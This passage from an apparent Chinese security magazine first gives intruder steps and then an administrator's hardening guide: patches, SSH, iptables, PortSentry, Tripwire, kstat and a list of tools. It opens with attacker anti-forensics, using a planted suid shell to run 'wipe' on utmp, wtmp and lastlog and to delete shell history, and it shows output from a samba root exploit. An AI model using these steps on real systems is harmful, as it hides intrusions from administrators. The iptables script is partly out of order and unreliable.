  Erase last entry on tty      wipe -W [username] [tty]

LASTLOG editing:
  Blank lastlog for user       wipe -l [username]
  Alter lastlog entry          wipe -l [username] [tty] [time] [host]
```

如果需要，加上运行权限：

`# chmod 755 wipe`

清除日志是需要 root 权限的，可以用我们的 suid shell。用 games 登录。

```bash
$ ./ash
# ./wipe -u games
# ./wipe -l games
# ./wipe -w games
```

其中，u 选项为 utmp/utmpx 日志擦除，w 选项为 wtmp/wtmpx 日志擦除，l 选项为 lastlog 日志擦除。一般一登录上去就先用 `wipe -w games`，这样管理员 `w` 就看不到了。然后，可以考虑删除 shell 记录。

```bash
# ls -al /.*history
# rm -f .*history
# cd
# rm -f .*history
```

这样子，记录基本上就清除了。除了 wipe，还有些其他工具可以清除日志，大家可自己去找找。

### 六、附录

下面，我们列出一些很可能用到的命令的详细用法和参数。

### 1. tar 命令

tar 可以为文件和目录创建档案。利用 tar，用户可为某一特定文件创建档案（备份文件），也可在档案中改变文件，或者向档案中加入新的文件。tar 最初被用来在磁带上创建档案，现在用户可在任何设备上创建档案（如软盘）。利用 tar 命令，可把一大堆文件和目录全部打包成一个文件，这对于备份文件或将几个文件组合成一个文件以便于网络传输非常有用，Linux 上的 tar 是 GNU 版本的。

语法：`tar [主选项+辅助选项] 文件或者目录`

使用该命令时，主选项是必须要有的，它告诉 tar 要做什么事情；辅助选项是辅助使用的，可以选用。

- **主选项**
  - `c` 创建新的档案文件。
  - `r` 把要存档的文件追加到档案文件末尾。
  - `t` 列出档案文件内容。
  - `u` 更新文件（追加或替换）。
  - `x` 从档案文件中释放文件。
- **辅助选项**
  - `b` 设定区块大小（系统预设 20，即 20×512 bytes）。
  - `f` 使用档案文件或设备（通常必选）。
  - `k` 保留已存在文件，避免覆盖。
  - `m` 还原时把修改时间设为现在。
  - `M` 创建多卷档案文件。
  - `v` 详细报告 tar 处理的文件信息。如无此选项，tar 不报告文件信息。
  - `w` 每一步都要求确认。
  - `z` 用 gzip 来压缩/解压缩文件，加上该选项后，可将档案文件进行压缩，但还原时也一定要使用该选项进行解压缩。

### 2. shutdown 命令

shutdown 命令可安全地关闭或重启 Linux 系统。它在系统关闭前给系统上的所有登录用户提示一条警告信息。该命令还允许用户指定一个时间参数，可以是一个精确的时间，也可以是从现在开始的一个时间段。精确时间的格式是 hh:mm，表示小时和分钟；时间段由 `+` 和分钟数表示。系统执行该命令后，会自动进行数据同步的工作。

该命令的一般格式为：`shutdown [选项] [时间] [警告信息]`

- `k` 并不真正关机，而只是发出警告信息给所有用户。
- `r` 关机后立即重新启动。
- `h` 关机后不重新启动。
- `f` 快速关机，重启动时跳过 fsck。
- `n` 快速关机，不经过 init 程序。
- `c` 取消一个已经运行的 shutdown。

### 3. passwd 命令

出于系统安全考虑，Linux 系统中的每一个用户除了有其用户名外，还有对应的用户口令。因此，使用 useradd 命令增加用户时，还需使用 passwd 命令为每一新增的用户设置口令。用户以后还可随时用 passwd 命令改变自己的口令。

该命令的一般格式为：`passwd [用户名]`。其中，用户名为需要修改口令的用户名。只有超级用户可使用 `passwd 用户名` 修改其他用户的口令，普通用户只能用不带参数的 passwd 命令修改自己的口令。

该命令的使用方法如下：输入 `passwd <Enter>`；在 `(current) UNIX passwd:` 下输入当前的口令；在 `new password:` 提示下输入新的口令（屏幕上不可见）；系统提示再次输入该口令。输入正确后，新口令将被加密并放入 `/etc/shadow` 文件。

选取口令应遵守如下规则：口令应至少有六位（最好八位）字符；口令应由大小写字母、标点符号和数字混杂组成。

```bash
# passwd xxq
New UNIX password:
Retype new UNIX password:
passwd: all authentication tokens updated successfully
#
```

### 4. su 命令

这个命令非常重要。它可让一个普通用户拥有超级用户或其他用户的权限，也可让超级用户以普通用户的身份做一些事情。普通用户使用这个命令时，必须有超级用户或其他用户的口令。如要离开当前用户的身份，可以打 `exit`。

该命令的一般形式为：`su [选项] [-] [使用者帐号]`。若没有指定使用者帐号，则系统预设值为超级用户 root。

- 该命令中各选项的含义分别为：
  - `-c` 执行一个命令后就结束。
  - `-` 加了这个“-”号的目的是使环境变量和欲转换的用户相同。
  - `-m` 保留环境变量不变。

```bash
$ su
Password: [输入超级用户的密码]
```

```bash
例2：变成 xu 使用者，并执行一个命令就结束。
$ su -xu -c "rmdir cat1"
```

### 5. ls

这个命令相当于 DOS 下的 dir 命令，是 Linux 控制台命令中最为重要的几个命令之一。ls 最常用的参数有三个：`-a`、`-l`、`-F`。

（1）`ls -a`：Linux 上以 `.` 开头的文件被系统视为隐藏文件，仅用 ls 命令看不到它们，而用 `ls -a` 除了显示一般文件名外，连隐藏文件也会显示出来。

（2）`ls -l`（参数是字母 L 的小写，不是数字 1）：该命令可用长格式显示文件内容。若要查看更详细的文件资料，就要用到 `ls -l` 指令。

| 文件属性 | 文件数 | 所有者 | 所属组 | 文件大小 | 建档日期 | 文件名 |
|---|---:|---|---|---:|---|---|
| drwx------ | 2 | guest | users | 1024 | Nov 21 21:05 | Mail |
| -rwx--x--x | 1 | root | root | 89080 | Nov 7 22:41 | tar* |
| -rwxr-xr-x | 1 | root | bin | 5013 | Aug 15 9:32 | uname* |
| lrwxrwxrwx | 1 | root | root | 4 | Nov 24 19:30 | zcat->gzip |
| -rwxr-xr-x | 1 | root | bin | 308364 | Nov 29 7:43 | zsh* |
| -rwsr-x--- | 1 | root | bin | 9853 | Aug 15 5:46 | su* |

下面，我为大家解释一下这些显示内容的意义：第一个栏位表示文件的属性。Linux 的文件基本上分为可读（r）、可写（w）、可执行（x）等位；首位可表示类型（如 d 表示目录，l 表示链接）。其余位按用户（Owner）、组（Group）、其他用户（Other）排列。某些程序位若是 s，表示可在执行时拥有程序拥有者权限。

第二个栏位表示文件个数。如果是文件的话，这个数目自然是 1 了；如果是目录，则它的数目就是该目录中的文件个数了。

第三个栏位：表示该文件或目录的拥有者。若使用者目前处于自己的 Home，那这一栏大概都是它的账号名称。

第四个栏位：表示所属的组（group）。每个使用者都可以拥有一个以上的组，不过大部分使用者应该都只属于一个组，只有当系统管理员希望给予某使用者特殊权限时，才可能会给他另一个组。

第五栏位：表示文件大小。文件大小用 byte 来表示，而目录一般都是 1024 byte。你当然可以用其它参数使文件显示的单位不同，如使用 `ls -k` 就是用 kb 来显示一个文件的大小单位，不过一般我们还是以 byte 为主。

第六个栏位：表示创建日期。以“月，日，时间”的格式表示，如 `Aug 15 5:46` 表示 8 月 15 日早上 5:46 分。

第七个栏位：表示文件名。我们可以用 `ls -a` 显示隐藏文件名。

（3）`ls -F`（注意，是大写的 F）

使用这个参数，表示在文件的后面多添加表示文件类型的符号，例如 `*` 表示可执行，`/` 表示目录，`@` 表示链接文件，这都是因为使用了 `-F` 这个参数。但现在基本上所有的 Linux 发行版本的 ls 都已内建了 `-F` 参数，也就是说，不用输入这个参数，我们也能看到各种分辨符号。

### 6. chmod 命令

chmod 命令是非常重要的，用于改变文件或目录的访问权限。用户用它控制文件或目录的访问权限。该命令有两种用法：一种是包含“字母和操作符表达式”的文字设定法；另一种是包含数字的数字设定法。

```bash
chmod [who] [ + | - | = ] [mode] 文件名
```

- 命令中各选项的含义为（操作对象 who 可以是下述字母中的任一个或它们的组合）：
  - `u` 表示“用户（user）”，即文件或目录的所有者。
  - `g` 表示“同组（group）用户”，即与文件属主有相同组 ID 的所有用户。
  - `o` 表示“其他（others）用户”。
  - `a` 表示“所有（all）用户”。它是系统默认值。

操作符号可以是：

- `+` 添加某个权限。
- `-` 取消某个权限。
- `=` 赋予给定权限并取消其他所有权限（如果有的话）。

设置 mode 所表示的权限可用下述字母的任意组合：

- `r` 可读。
- `w` 可写。
- `x` 可执行。
- `X` 只有目标文件对某些用户是可执行的，或该目标文件是目录时才追加 x 属性。
- `s` 在文件执行时，把进程的属主或组 ID 置为该文件的文件属主。方式“u+s”设置文件的用户 ID 位；“g+s”设置组 ID 位。
- `t` 保存程序的文本到交换设备上。
- `u` 与文件属主拥有一样的权限。
- `g` 与和文件属主同组的用户拥有一样的权限。
- `o` 与其他用户拥有一样的权限。

```text
文件名：以空格分开的要改变权限的文件列表，支持通配符。
在一个命令行中可给出多个权限方式，其间用逗号隔开。例如：
chmod g+r,o+r example
```

使同组和其他用户对文件 example 有读权限。

（2）数字设定法

首先，我们必须了解用数字表示的属性的含义：0 表示没有权限，1 表示可执行权限，2 表示可写权限，4 表示可读权限，然后将其相加。所以数字属性的格式应为 3 个从 0 到 7 的八进制数，其顺序是（u）（g）（o）。

例如，如果想让某个文件的属性有“读/写”二种权限，需要把 4（可读）+2（可写）=6（读/写）。

数字设定法的一般形式为：`chmod [mode] 文件名`

### 7. cat

这个命令是 Linux 中非常重要的一个命令，它的功能是显示或连接一般的 ASCII 文本文件。cat 是 concatenate 的简写，类似于 DOS 下的 Type 命令。它的用法如下：

```text
cat text —— 显示 text 这个文件；
cat file1 file2 —— 依顺序显示 file1、file2 的内容；
cat file1 file2 > file3 —— 把 file1、file2 的内容结合起来，再“重定向（>）”到 file3 文件中。
```

`>` 是个非常有趣的符号，是往右重定向的意思，就是把左边的结果当成是输入，然后输入到 file3 这个文件中。这里要注意一点是，file3 是在重定向以前还未存在的文件；如果 file3 是已经存在的文件，那么它本身的内容会被覆盖，而变成 file1+file2 的内容。

如果 `>` 左边没有文件的名称，而右边有文件名，例如：`cat >file1`，结果是会“空出一行空白行”，等你输入文字，输入完毕后再按 Ctrl+C 或 Ctrl+D，就会结束编辑，并产生 file1 这个文件，而 file1 的内容就是你刚刚输入的内容。这个过程和 DOS 里的 `copy con file1` 的结果是一样的。

另外，如果你使用如下指令：`cat file1>>file2`，这将变成将 file1 的文件内容“附加”到 file2 文件后面，而 file2 的内容依然存在。这种重定向符 `>>` 比 `>` 常用，可以多多利用。

### 8. more, less

这是两个显示一般文本文件的指令。如果一个文本文件太长，超过一个屏幕的画面，用 cat 来看实在是不理想，这时就可试试 more 和 less 这两个指令。more 指令可使超过一页的文件临时停留在屏幕，等你按住任何一个键后才继续显示。而 less 除了有 more 的功能外，还可用方向键往上或往下滚动文件。所以，你随意浏览、阅读文章时，less 是个非常好的选择。

### 9. man

如果你的英文足够好，那完全可以不靠任何人就精通 Linux，只要你会用 man。man 实际上就是查看指令用法的 help，学习任何一种 UNIX 类的操作系统，最重要的就是学会使用 man 这个辅助命令。man 是 manual（手册）的缩写，它的说明非常详细，但因为都是英文，看起来非常头痛。建议大家需要的时候再去看 man，平常只要记得一些基本用法就可以了。


以管理员的身份写的这个部分，希望对网络安全人士有所帮助。

## 主题乐园

### 一、勤打补丁，保持更新

作为一个系统管理员，没有什么东西比系统安全更加重要的了。无论是 Windows 平台，还是 Linux、FreeBSD 服务器等操作系统，都不应该忽略系统安全问题。有的管理员天真地认为打补丁是 Windows 类服务器的专利，可是他们错了，Unix 类的服务器操作系统和其上面的服务器软件也是不定时会出现这样那样的安全性问题。在 Internet 广泛应用的今天，服务器的安全性绝对是一个挑战，rootkit 工具的不断发展、攻击脚本的不定期发布，使管理员们经常提心吊胆。每当公布一个新的漏洞时，你的系统立刻就变得更加危险，而要维护系统安全只有一个方法，就是尽快、尽可能地进行更新或打补丁。在厂商更新或补丁还没有公布之前，最好先采用相应的安全建议！

曾经有人问我：“黑客和系统管理员有没有共通的地方？”很多人会认为，上述两者根本就是对立的两个方面，怎么会有共通点呢？可在我看来，一个合格的系统管理员其实和一个“hacker”有很多相同的地方：要像黑客一样经常泡安全公告板，留意有没有最新的安全漏洞，有没有补丁可以更新。当有披露漏洞发布时，要第一时间检查自己的系统！

### 二、使用 Crack 等工具检查用户的弱口令

如果你的系统除了自己的管理账号外，还有别的用户账号，就要注意一下这些用户的口令是否过于简单、容易破解，因为黑客有可能会通过穷举得到一两个用户的弱口令，再进一步通过使用 Rootkit 或特洛伊木马等工具获取 Root 权限。安全界中有一句格言：“方便性和安全性是互相排斥的”，这就是说要提升安全性就必然会牺牲方便性，反之亦然。所以，尽管你再三叮嘱用户使用较复杂的密码，可还是有些用户使用自己的用户名、电话号码、生日等作为“密码”。而且，如果强制性使用户密码在一定时间后过期，在提示用户输入新密码时，用户往往首先会尝试输入上次使用的密码。对付这样的情况，最好的方法是自己不断用工具猜测，可以使用名为 Crack 的工具来完成。对于自己捕捉到破解出来的账号密码，最好还是尽快通知用户修改密码。

我是在 FreeBSD 下直接用 ports 安装的，默认安装在 /usr/local/crack 下面。下面是它自带的说明文件，比较简单，我就不翻译过来了^-^。

```text
This is Alec Muffett's Crack.
Crack is a freely available program designed to find encrypted passwords.

When you would like to crack a 4.4BSD password file:
    Crack -fmt bsd <password_file>
Or, for non-BSD machines:
    Crack <password_file>

WWW: http://www.users.dircon.co.uk/~crypto/
```

安装前最好先看看里面的 manual.txt 或 manual.html，说明写得很详细，需要分别针对各个不同的系统做些修改。

### 三、禁用 telnet，转用 SSH

典型的终端通信有 telnet 和 rlogin 程序，但它们是明文通信中风险最大的一种，之间传输的数据没有经过加密处理，很容易被 sniff 到。不过不用担心，我们可轻松地使用 SSH 协议来替换这两个服务。使用 SSH，用户可以和服务器建立一个加密传输的“隧道”，可以有效地保护用户的登录密码及所有的命令行活动，有效防范窃听拦截的攻击。

既然 SSH 可以完全替代 telnet，那么就干脆把 telnet 禁用掉吧！修改 /etc/inetd.conf，把里面的 telnetd 一行注释掉即可，然后重新启动 inetd 进程。

```bash
# telnet stream tcp nowait root /usr/libexec/telnetd telnetd
# killall -HUP inetd
```

如果是使用 xinetd，那么应该修改 /etc/xinetd.d/telnet，找到：`disable = no` → `disable = yes`。

SSH 有两种形式：SSH1 和 SSH2。因为 SSH1 设计并不太好，会比 SSH2 显示出更多的安全弱点，所以可以把 SSH1 禁用，只使用 SSH2 协议。可以在 /etc/ssh/sshd_config 中修改下面一行：

```text
Protocol 1,2
-> Protocol 2
```

同时还可以做以下一些变动，会令 SSH 相对更加安全一点：

#### 1. 改变 sshd 端口

同样是修改 /etc/ssh/sshd_config。修改 Port 22 一行，将 22 换成任何一个不规则的端口，这样可在一定程度上迷惑那些专门用工具扫描别人机器的人。当他发现你 22、23 端口都没开时，会以为没有开放 telnet 和 SSH。

#### 2. 禁止 root 通过 SSH 直接登录

在 Linux 下，默认 sshd 是允许 root 直接登录（FreeBSD 默认是禁止 root 直接登录的），这样就算是管理员进行系统维护管理，也要先用普通账号连接到系统，然后变更为 root。这样的好处是可以避免有人直接猜解 root 密码，而且万一 root 密码不小心泄漏出去后，对方还必须先搞到一个普通用户账号才可登录到系统上。

```text
/etc/ssh/sshd_config
PermitRootLogin yes
-> PermitRootLogin no
```

就可以禁止 root 通过 SSH 直接登录了。

### 四、用 iptables 构建自己的防火墙

还是再重复一下上面那句格言：“方便性和安全性是互相排斥的”。很多时候多做一个限制，往往就有可能在不经意间保护了你的系统，从而免受非法入侵。就拿上面提到的最新 samba 漏洞来说吧，如果你在设置 samba 服务器时，已经加上了 IP 验证（这是一个好习惯，因为一般使用 samba 共享服务的都是同一局域网内的用户，或 INTERNET 上比较固定的可以信任的一些机器），假设 server 的 IP 是 192.168.0.1，如果管理员在 /etc/samba/smb.conf 中添加了 IP 访问限制（图11）：

```ini
[global]
hosts allow = 192.168.0.（表示只允许同一个 C 网段的局域网机器使用）
```

这样，不在 IP 允许范围内运行的攻击程序会收到一串连续的错误信息。即使没有及时把相应的 samba 溢出漏洞补丁打上，在允许访问 IP 外的 hacker 也无法利用该漏洞入侵得到 root 权限。同样的道理，假若我们能构建一个较周到、完善的防火墙，这也失去了架构防火墙的意义，还不如直接把网线拔掉呢，要比把所有开放端口不加限制地完全暴露在 Internet 安全得多。

```text
[root@... tool]# ./smbal -h ...
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba
+ Recieved a non session message
+ Recieved a non session message
+ Recieved a non session message
+ ...
```

图11

越来越容易得到的黑客工具、漏洞利用脚本以及 Rootkit、backdoor 等，令服务器安全处于一个危险的状态。所以，除了尽量少安装和运行不使用的服务外，还要在总体上做一个访问控制，只允许来自某些端口的访问、来自某些主机的访问，甚至只允许来自某些协议的访问。这就是防火墙的作用，所以防火墙又称之为“带过滤功能的路由器”。早期的 Linux 使用 ipchains（现在多用 iptables），而 FreeBSD 有相应的 ipfw/ipfilter，下面以现在用得最多的 iptables 为例，向大家介绍一下怎么构建自己的防火墙。

什么？你还没装 iptables？RedHat 8 自带的是 iptables-1.2.6a-2，在安装光盘里找到，然后 `rpm ivh iptables-1.2.6a-2.rpm`。如果你喜欢编译，可以去 http://netfilter.samba.org 下载一个最新版本回来，然后：

```bash
tar zxvf iptables-x.x.x.tar.gz
cd iptables-x.x.x
make
make install
```

如果你是使用 Debian 的话，可使用 Debian 的 apt 安装系统直接在网上下载安装：`apt-get install iptables`（Linux 的发行版本中我最喜欢 Debian 了）。

- `iptables -A|-D|-C` 来指定链的规则（-A 添加，-D 删除，-C 修改）
- `iptables -[RI] chain rule num rule-specification [option]`
- `iptables -D chain rule num [option]`
- `iptables -[LFZ] [chain] [option]`
- `iptables -[NX] chain`
- `iptables -P chain target [options]`
- `iptables -E old-chain-name new-chain-name`

#### 1. 具体防火墙脚本

防火墙脚本一般我是从缺省情况下删除所有包开始，然后逐步开放防火墙。这样，它将会满足我们的需要。这种做法可确保防火墙会尽可能安全。

在本示例中，假设系统中有两个网络接口：eth0 和 eth1。eth0 网卡连接到内部局域网，而 eth1 网卡连接到因特网。下面介绍的 iptables 防火墙脚本将是基于动态的防火墙，而非平常使用的静态防火墙脚本。

#### 2. 基本知识

- 键入 `cat /proc/net/ip_conntrack` 看看？我们将会看到机器参与的所有活动网络连接。同时，它还将所有的包分成四种连接状态，分别是：NEW、ESTABLISHED、RELATED、INVALID。

1. **NEW** 状态：正在建立新连接，并且还没有从远程主机接收到通信流中使用的包。  
2. **ESTABLISHED** 状态：一旦追踪看到两个方向上都有通信流，与此附加相关的其它包都被看作处于 ESTABLISHED 状态。  
3. **RELATED** 状态：启动新连接但又与当前现有连接相关联的包（如 ftp 数据连接、ICMP 错误包等）。  
4. **INVALID** 状态：包既不是 NEW、ESTABLISHED、RELATED，也不能归入以上三种类别，需要通过规则进行处理。

```bash
#!/bin/bash
INTERFACES="lo eth0 eth1"
SERVICES="http ftp smtp ssh rsync"
if [ "$1" = "start" ]
then
  echo "Starting firewall..."
  iptables -P INPUT DROP
  iptables -A INPUT -i ! eth1 -j ACCEPT
  ...
```

我们设定防火墙不允许陌生人连接我们机器上的服务，因为它只接受进入 ESTABLISHED 或 RELATED 包。由于它删除了所有进入 NEW 包，因此所有连接尝试都将被无条件拒绝。但只要有选择地允许一些进入通信流通过防火墙，我们就可以让别人连接到我们指定的服务。

```bash
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

for i in ${SERVICES}
do
  iptables -A INPUT -p tcp --dport ${i} -m state --state NEW -j ACCEPT
done
```

```bash
iptables -A INPUT -p tcp -i eth1 -j REJECT --reject-with tcp-reset
iptables -A INPUT -p udp -i eth1 -j REJECT --reject-with icmp-port-unreachable
```

```bash
# 明确关闭 ECN。启用 ECN 时，Linux 机器发送出的包可能会设置 ECN 位，
# 这会使部分国际路由器产生问题，因此建议关闭。
if [ -e /proc/sys/net/ipv4/tcp_ecn ]; then
  echo 0 > /proc/sys/net/ipv4/tcp_ecn
fi
```

图12  
图13

```bash
# 防止欺骗：启用反向路径过滤，丢弃被欺骗的包
for x in ${INTERFACES}; do
  echo 1 > /proc/sys/net/ipv4/conf/${x}/rp_filter
done

elif [ "$1" = "stop" ]; then
  echo "Stopping firewall"
  iptables -F INPUT
  iptables -P INPUT ACCEPT
  iptables -t nat -F POSTROUTING
fi
```

```bash
# 不接受 source routed packets
/bin/echo "0" > /proc/sys/net/ipv4/conf/all/accept_source_route

# 关闭接受 ICMP 重定向
/bin/echo "0" > /proc/sys/net/ipv4/conf/all/accept_redirects

# 打开错误信息保护
/bin/echo "1" > /proc/sys/net/ipv4/icmp_ignore_bogus_error_responses
```

/proc/sys/net/ipv4 目录中还有很多可修改参数，可参考系统帮助文档。另可参考 http://netfilter.samba.org 获取 netfilter/iptables 资料。

把上面的脚本保存为 firewall，赋予可执行权限后，可用 `./firewall start` 启动防火墙，用 `./firewall stop` 停止。

```bash
# 关闭对 ICMP 包的回应
/bin/echo "1" > /proc/sys/net/ipv4/icmp_echo_ignore_all

# 不对广播包进行回应
/bin/echo "1" > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts
```

### 五、PortSentry

网络上有许多端口扫描工具（如 nmap、xscan 等），攻击者通常先进行端口探测以识别目标系统和服务。

PortSentry 是用于侦测并阻止网络扫描的工具，可运行于多种 Unix/Linux 平台。安装后可监测指定 tcp/udp 端口，在扫描发生时进行捕捉并响应，立刻进行下一步动作，把该主机筛选入黑洞路由器或加入防火墙规则。这样，可以跟 iptables 动态结合起来！另外，portsentry 还有如下功能：

- 对外界的扫描动作生成详细的日志记录，包括发起扫描的主机名、扫描时间、连接的端口等。
- 在 Linux 操作系统下，可捕捉 SYN/half-open、FIN、NULL、X-MAS 等诸多 stealth 扫描模式。
- 可有效捕捉非连续随机扫描。

```text
nmap -O <target>

Starting nmap...
Interesting ports on ...
22/tcp open ssh
23/tcp open telnet
80/tcp open http
111/tcp open sunrpc
...
Remote operating system guess: FreeBSD ...
Nmap run completed ...
```

图14

### 六、使用数据完整性检测工具——Tripwire

一般地，黑客得到一个系统的 root 权限后，除浏览你的秘密外，往往在离开前会先留下一个或多个后门……Tripwire 能帮你判断系统的一些重要文件是否被攻击者修改。

#### 1. 初始化 Tripwire

你可以根据自己的系统情况编辑 /etc/tripwire/twpol.txt 文件。安装时会让你输入两个 passphrase。

```text
Creating key files...
Enter the site keyfile passphrase:
Verify the site keyfile passphrase:
Enter the local keyfile passphrase:
Verify the local keyfile passphrase:
...
```

> **注意**：Tripwire 的配置文件、策略文件和特征码数据库文件等，最好做异地备份。

```text
Please enter your site passphrase: <--- 输入密码
```

准备工作完成后，可运行如下命令产生特征码数据库：

```bash
twadmin --init
Please enter your local passphrase: <--- 输入密码
Parsing policy file: /etc/tripwire/tw.pol
Generating the database...
*** Processing Unix File System ***
```

这个命令将根据策略/配置文件的内容产生一个系统快照，特征码数据库文件一般保存在 /var/lib/tripwire/ 目录下。

> **注意**：在初始化过程中，可能产生大量警告信息，例如：

```text
### Warning: File system error
### Filename: /usr/tmp
### No such file or directory
### Continuing...
```

这些错误信息一般是由于配置文件编写不当造成的，可以忽略。但为了减少这些错误信息的出现，应根据自己的系统仔细编辑配置文件。

#### 2. 监视系统内的文件

初始化工作完成后，就可用 Tripwire 来监视系统内文件的变动情况。使用如下命令启动 Tripwire 的检查模式：

`./tripwire --check --interactive -V vi`

检查完成后，若系统没有异常，可使用升级模式对特征码数据库进行升级，报告通常保存在 /var/lib/tripwire/report/ 目录中。

> **注意**：要把 Tripwire 的配置文件、策略数据库文件等妥善保存，并建议异地备份。

如果想对 Tripwire 进行更深入的了解，请参考 Tripwire 手册或访问官方网站 http://www.tripwire.org。

### 七、使用 kstat 检测 LKM 后门

```text
Usage: kstat [-i, -P] [-p pid] [-M] [-m addr] [-s]
- i: interface name
- P: display all processes
- p pid: process id
- M: display kernel LKMs linked list
- m addr: hex address of queried module
```

## 主题乐园

```
-m displays info about the module to be found at addr
-s displays info about the system calls table
```

Kstat -s 是个非常有效的选项，-s 选项为我们提供了一个系统调用表 sys_call_table；kstat -p 是另一个有效的选项，这个选项列出当前在系统中运行的所有进程，包括被 LKM rootkit 隐藏的进程。例如这份 kstat -p 的输出：

| PID | PPID | UID | GID | COMMAND |
|---:|---:|---:|---:|---|
| 1 | 0 | 0 | 0 | init |
| 2 | 1 | 0 | 0 | kflushd |
| 3 | 1 | 0 | 0 | kupdated |
| 4 | 1 | 0 | 0 | kpioc |
| 5 | 1 | 0 | 0 | kswapd |
| 6 | 1 | 0 | 0 | mdrecoveryd |
| 241 | 1 | 1 | 0 | portmap（怪进程） |
| 256 | 1 | 0 | 0 | lockd |
| 257 | 256 | 0 | 0 | rpciod |
| 266 | 1 | 0 | 0 | rpc.statd |
| 280 | 1 | 0 | 0 | apmd |
| 331 | 1 | 0 | 0 | syslogd |

PID 为 241 的 portmap 用 ps -ef 是看不到的。kstat -p 241 命令可给出 241 进程的详细信息，具体检测时还必须用 kstat -s。下面是一份输出的例子：

```
sys_fork     0xc4051428  WARNING! Should be at 0xc0108c68
sys_write    0xc4051590  WARNING! Should be at 0xc01269b8
sys_close    0xc405163c  WARNING! Should be at 0xc0126444
sys_kill     0xc40514d0  WARNING! Should be at 0xc011060c
sys_mkdir    0xc405172c  WARNING! Should be at 0xc012e540
sys_clone    0xc405147c  WARNING! Should be at 0xc0108ca4
sys_getdents 0xc40512a4  WARNING! Should be at 0xc013022c
```

我们可以看到 sys_call_table 的哪些入口被修改，有助于确定系统被哪种 rootkit 入侵。一般 adore 修改了 7 个调用地址。

## 八、附排名前50的网络安全工具

前些时候，nmap-hacker 邮件列表中的 1200 名 Nmap 用户发起了最佳安全工具的评选活动，每个用户最多可选出 5 个最佳工具。最后，评选出以下 50 个最佳的网络安全工具。对于在网络安全领域刚入门的用户来说，这个投票结果对选取何种网络安全工具有相当的参考价值，里面很多工具本文都有提及到。

- 1. Nessus http://www.nessus.org
- 2. Netcat http://www.l0pht.com/~weld/netcat/
- 3. Tcpdump http://www.tcpdump.org
- 4. Snort http://www.snort.org
- 5. Saint http://www.wwdsi.com/saint/
- 6. Ethereal http://ethereal.zing.org/
- 7. Whisker http://www.wiretrip.net/rfp/p/doc.asp?id=2l&iface=2
- 8. Internet Security Scanner http://www.iss.net
- 9. Abacus Portsentry http://www.psionic.com/abacus/portsentry/
- 10. Dsniff http://naughty.monkey.org/~dugsong/dsniff
- 11. Tripwire http://www.tripwire.com/
- 12. Cybercop http://www.pgp.com/asp_set/products/tns/ccscanner_intro.asp
- 13. Hping2 http://www.kyuzz.org/antirez/hping/
- 14. SARA http://www-arc.com/sara/
- 15. Sniffit http://reptile.rug.ac.be/~coder/sniffit/sniffit.html
- 16. SATAN http://www.fish.com/satan/
- 17. IPFilter http://coombs.anu.edu.au/ipfilter
- 18. iptables/netfilter/ipchains/ipfwadm http://netfilter.kernelnotes.org/
- 19. Firewalk http://www.packetfactory.net/Projects/Firewalk/
- 20. Strobe http://www.insecure.org/nmap/index.html#other
- 21. L0pht Crack http://www.l0pht.com/l0phtcrack/
- 22. John The Ripper http://www.openwall.com/john/
- 23. Hunt http://www.cri.cz/kra/index.html#HUNT
- 24. OpenSSH / SSH http://www.openssh.com/ http://www.ssh.com/commercial/index.html
- 25. tcp wrappers ftp://ftp.porcupine.org/pub/security/index.html
- 26. Ntop http://www.ntop.org
- 27. traceroute/ping/telnet http://www.linux.com
- 28. NAT (NetBIOS Auditing Tool) http://www.tux.org/pub/security/esecnet/tools/nat10/
- 29. scanlogd http://www.openwall.com/scanlogd/
- 30. Sam Spade http://samspade.org/ http://www.samspade.org/
- 31. NFR http://www.nfr.com
- 32. logcheck http://www.psionic.com/abacus/logcheck/
- 33. Perl http://www.perl.org
- 34. Ngrep http://www.packetfactory.net/Projects/ngrep/
- 35. Cheops http://www.marko.net/cheops/
- 36. Vetescan http://www.self-evident.com/
- 37. Retina http://www.ceye.com/html/Products/Retina.html
- 38. Libnet http://www.packetfactory.net/libnet/
- 39. Crack / Libcrack http://www.users.dircon.co.uk/~crypto/
- 40. Cerberus Internet Scanner http://www.cerberus-infosec.co.uk/cis.shtml
- 41. Swatch http://www.stanford.edu/~atkins/swatch/
- 42. OpenBSD http://www.openbsd.org
- 43. Nemesis http://www.packetninja.net/nemesis/
- 44. LSOF ftp://vic.cc.purdue.edu/pub/tools/unix/lsof/
- 45. Lids http://www.turbolinux.com.cn/lids/
- 46. IPTraf http://cebu.mozcom.com/riker/iptraf/
- 47. IPLog http://ojnk.sourceforge.net/
- 48. Fragrouter http://www.anzen.com/research/nidsbench/
- 49. Queso http://www.apostols.org/projectz/queso/
- 50. GPG/PGP http://www.gnupg.org/ http://www.pgp.com


紫天星

### 前言

阅读前，希望读者先看看以下的名词解释，以方便后面的理解。

### PKI
全名为 Public Key Infrastructure，它是一种密码管理的机制，在电子交易时，可确认下单的安全性，仅有通过公钥机制授权的使用者，才能电子化下单或是各方面商业行为。

### CA
全名为 Certificate Authority，是在线交易的监督者和担保人，主要进行电子证书管理、电子交易伙伴关系建立和确认、密钥管理，为支付系统中的各参与方提供身份认证等。CA 类似于现实生活中公证人的角色，具有权威性，是一个普遍可信的第三方。

### KM和数字签名
全名为 Key Manager，用于生成密钥和认证的实用工具。

### 域控制器
全名为 domain controller，对于 Windows NT Server 域，验证登录并维护安全策略和域的主数据库的服务器。

### 数字签名
对信息的来源加以认证的手段，一般借助公钥加密体系完成。

### 密钥
在 PGP 里密钥是一个很长的数字，一般用途可用 576 位的密钥，712 位被认为具有商业上的保密级别，1024 位密钥可作军事用途。密钥越长，保密性越好，当然加密花费时间也越多。PGP 允许用户自己选择密钥长度，从 576 位到 2048 位不等。

### 密钥证书
一种用来交换密钥的数据块，它包含密钥主人的用户名（user ID）、生成密钥对的时间、密钥标识，当然还有密钥本身。

### 密钥对
公钥体系的特色，公钥和私钥同时使用才能完成加密和解密全过程，密钥产生时由用户随机生成一对密钥分别作为自己的公钥和私钥。这两个密钥称为一个密钥对。

### 证书吊销
当密钥被泄露或被所有者废弃时，所有者可以生成一个密钥废除声明，其他人在自己的密钥环中加入它时，指定的密钥就被标明作废。

### 密钥环
用来存放公私密钥的文件。由于公钥体系的特点，用户需要保存大量其他人的公钥，自己也有用几个私钥的必要，所以需要把密钥保存在密钥环里。

### 公钥
公开密钥，用你的公开密钥他人可以解密你用相应的私钥加密的数据。

### 公钥服务器
